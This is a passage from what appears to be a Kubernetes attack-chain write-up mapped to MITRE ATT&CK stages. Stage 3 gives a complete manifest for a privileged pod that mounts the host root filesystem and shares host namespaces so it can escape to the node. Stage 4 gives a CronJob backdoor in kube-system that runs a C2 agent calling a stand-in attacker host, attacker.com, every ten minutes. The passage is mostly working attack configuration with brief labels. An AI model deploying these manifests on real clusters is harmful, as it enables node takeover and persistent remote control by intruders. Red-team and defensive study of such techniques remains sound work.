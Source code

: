 ### Stage 3: Privilege Escalation (T1068 - Exploitation for Privilege Escalation)

**Exploit Overpermissive RBAC:**

```bash
# Create privileged pod with host access
kubectl create -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: hostaccess
  namespace: default
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: shell
    image: alpine
    command: ["/bin/sh"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
EOF
```

**Result:** Full node access, ability to escape container and access host filesystem

### Stage 4: Persistence (T1053.003 - Scheduled Task/Job: Cron)

**Establish Backdoor:**

```yaml
apiVersion: batch/v1
kind: CronJob
metadata:
  name: persistence-job
  namespace: kube-system
spec:
  schedule: "*/10 * * * *"  # Every 10 minutes
  jobTemplate:
    spec:
      template:
        spec:
          serviceAccountName: default
          containers:
          - name: backdoor
            image: attacker/c2-agent:latest
            env:
            - name: C2_SERVER
              value: "https://attacker.com/c2"
```
